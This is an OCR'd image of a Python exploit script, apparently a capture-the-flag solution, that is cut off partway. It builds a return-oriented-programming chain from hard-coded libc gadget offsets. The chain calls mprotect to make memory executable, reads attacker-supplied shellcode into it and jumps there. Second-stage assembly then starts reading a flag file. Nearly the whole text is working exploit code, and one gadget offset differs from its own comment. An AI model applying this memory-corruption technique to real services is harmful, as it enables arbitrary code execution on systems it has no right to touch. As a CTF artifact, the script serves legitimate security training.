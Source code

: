 ```python
    oneshotrce = 0x4652c

    # libc_base_offset 0x1f4a0
    # 0x000c1e55 : syscall ; ret
    # 0x000293b8 : pop rax; ret
    # 0x00005365 : pop rsi; ret
    # 0x0009da40 : pop rdx; ret
    # 0x0000367a : pop rdi; ret

    libc_base = 0x7ffff7a15000

    syscal = p64(libc_base + 0xc1e65)
    binsh = p64(libc_base +  0x000000000017CCDB)

    libc_base += 0x1f4a0
        
    poprax = p64(libc_base + 0x000293b8)
    poprsi = p64(libc_base + 0x00005365)
    poprdi = p64(libc_base + 0x0000367a)
    poprdx = p64(libc_base + 0x0009da40)

    # rop chain starts here

    # mprotect chain
    buf += poprax
    buf += p64(0xa)
    buf += poprdi
    buf += p64(0x00601000)
    buf += poprsi
    buf += p64(0x1000)
    buf += poprdx
    buf += p64(0x7)
    buf += syscal

    # read chain: read shellcode from user
    buf += poprax
    buf += p64(0x0)
    buf += poprdi
    buf += p64(6)
    buf += poprsi
    buf += p64(0x00601000)      # write shellcode here
    buf += poprdx
    buf += p64(0x100)
    buf += syscal

    # return to payload
    buf += p64(0x00601000)

    print "sending stage 1"
    r.send(buf)

    print "hit enter to send stage 2"
    raw_input()

    # read flag
    stage2 = ""
    stage2 += asm("mov rax, 0x0")
    stage2 += asm("mov rdi, 0x6")
    stage2 += asm("mov rsi, 0x00601090")
    stage2 += asm("mov rdx, 0x10")
    stage2 += asm("syscall")

    # open flag
```